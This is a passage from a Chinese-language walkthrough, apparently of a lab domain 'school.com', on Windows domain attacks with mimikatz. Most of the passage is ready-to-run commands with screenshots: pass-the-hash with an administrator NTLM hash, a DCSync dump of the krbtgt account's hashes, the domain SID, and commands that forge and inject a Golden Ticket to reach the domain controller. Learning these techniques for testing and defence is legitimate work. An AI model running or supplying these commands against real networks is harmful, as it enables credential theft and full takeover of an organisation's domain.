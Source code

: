 **抓取的凭证会保存在log中，打开文件可以见到administrator账户的ntlm hash：**

![](https://p408.ssl.qhimgs4.com/t014412381ad3c756b1.png)

**在mimikatz中输入以下命令：**

```text
Sekurlsa::pth /domain:school.com /user:administrator /ntlm:上面保存的ntlm hash
```

![](https://p408.ssl.qhimgs4.com/t016a2df577ad7b489a.png)

**此时可以弹出一个CMD，可列出域控服务器中的C$文件**

![](https://p408.ssl.qhimgs4.com/t01e39417a61b9c14b6.png)

**Golden Ticket - 1**

**以管理员身份运行mimikatz，导出用户HASH**

```text
privilege::debug
lsadump::dcsync /user:krbtgt
```

![](https://p408.ssl.qhimgs4.com/t019a9243f9adca441e.png)

记录以下信息：

Hash NTLM: 1692ecea9bc398966ea2a13cd370e312

aes256\_hmac: 87d3913d6cb96fef6fcc7a616ee33625bec4b8cffc7a2efa7f177541dd7d3d9c

**普通用户权限，尝试列出域控目录**

![](https://p408.ssl.qhimgs4.com/t016a83d3433ad35f0c.png)

**查看域用户，可见域管理员账户为administrator**

![](https://p408.ssl.qhimgs4.com/t01a60ed5235d62920e.png)

**查看域的SID号**

![](https://p408.ssl.qhimgs4.com/t0171d86f1d2b42dbe2.png)

**普通用户权限打开mimikatz**

```text
kerberos::purge
kerberos::golden /admin:administrator /domain:school.com /sid:S-1-5-21-2236738896-1661306322-1924668396 /krbtgt:1692ecea9bc398966ea2a13cd370e312 /ticket:ticket.kirbi
kerberos::ptt ticket.kirbi
kerberos::tgt
```

**再次尝试列出域控目录**

![](https://p408.ssl.qhimgs4.com/t013ebad3da4f61abd5.png)
